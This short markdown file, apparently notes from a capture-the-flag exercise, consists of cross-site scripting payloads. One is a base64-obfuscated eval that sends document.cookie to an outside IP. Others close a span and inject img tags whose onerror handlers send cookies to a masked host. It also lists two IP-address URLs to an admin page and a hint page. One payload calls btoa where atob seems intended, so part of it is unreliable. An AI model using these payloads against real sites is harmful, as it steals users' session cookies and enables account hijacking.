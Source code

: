 ### xss script
```javascript
'eval(atob(\'' + btoa('window.location=\'http://---.---.---.---:----/\' + document.cookie') + '\'))'
```

```html
yelo</span><img src="http://---.---.---.---:----/ping">
yelo</span><img onerror="window.location = 'http://---.---.---.---:----/' + document.cookie">
yelo</span><img onerror="eval(btoa(('...'))">
```

- http://117.51.147.2/Ze02pQYLf5gGNyMn/admin.php
- http://139.199.107.193/hint.php
